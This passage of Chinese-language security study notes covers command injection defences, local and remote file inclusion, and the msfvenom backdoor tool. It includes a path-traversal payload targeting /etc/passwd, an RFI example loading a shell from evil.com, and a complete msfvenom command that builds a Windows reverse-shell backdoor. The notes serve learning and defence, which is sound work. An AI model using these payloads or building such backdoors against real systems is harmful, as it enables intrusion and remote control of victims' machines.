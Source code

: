 **防禦方法**：
- **避免使用高風險函式**：使用更安全的替代方法，如 Python 的 `subprocess.run()` 並以 list 方式傳入參數。
- **使用正規表達式過濾輸入**：
  - 例如只允許英數字：`^[a-zA-Z0-9]+$`
- **執行環境隔離**：使用容器（如 Docker）隔離潛在受害服務。

## File Inclusion Vulnerabilities
攻擊者利用應用程式動態載入檔案的特性，來讀取、執行不該被存取的檔案，導致敏感資訊外洩甚至遠端程式碼執行（RCE）。
### LFI（Local File Inclusion，本地檔案引入）
**描述**：攻擊者可透過修改 URL 或參數，使伺服器載入本地的任意檔案，例如 `/etc/passwd`、Apache 設定檔、PHP session 資料等。

**常見利用方式**：
- 包含類似 `include($_GET['page'])` 的程式碼。
- 搭配 `../../../../../etc/passwd` 進行目錄穿越（Directory Traversal）。

### RFI（Remote File Inclusion，遠端檔案引入）
**描述**：攻擊者可引入並執行來自遠端的程式碼（如 PHP 檔），達成遠端程式碼執行（RCE）。

**常見利用方式**：
- `include($_GET['url'])` 載入 `http://evil.com/shell.txt`，而檔案內容實際為 PHP 程式碼。

### 防禦方法
- **嚴格限制可引入的檔案來源與名稱**（使用白名單設計）：
  ```php
  $allowed = ['about', 'contact'];
  if (in_array($_GET['page'], $allowed)) {
      include("pages/" . $_GET['page'] . ".php");
  }
  ```
- 避免使用變數作為檔案名稱來源，改為靜態包含（static include）。
- 關閉 PHP 設定中的遠端引入功能
- 避免動態組合檔名，並過濾輸入：
  - 防止目錄穿越：移除 ../ 或使用 realpath() 比對路徑範圍。
  - 防止 null byte 攻擊（舊版本 PHP 用 %00 終止字串）。
- 伺服器權限管理：
  - 避免將敏感檔案與應用程式放在同一目錄。
  - 執行帳號應無法讀寫非必要檔案。



## Backdoor 建立工具
### msfvenom
**是什麼？**  
Metasploit Framework 所提供的 payload 產生工具，可以產出能在目標系統執行的**惡意程式碼**（後門）。

**用途：**
- 建立可執行的 Payload，如：
  - Windows：`.exe`
  - Linux：`.elf`
  - Android：`.apk`
- 支援多種**連線方式**（payload type）：
  - `reverse_tcp`：目標端主動連回攻擊者
  - `bind_tcp`：目標端開一個 port 等攻擊者連線
- 可加上 Encoder 混淆內容，避開簡單的防毒檢查
**簡單範例：**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > backdoor.exe
```
產出一個 Windows 的反向連線後門程式 `backdoor.exe`，當執行後會主動回連給攻擊者。
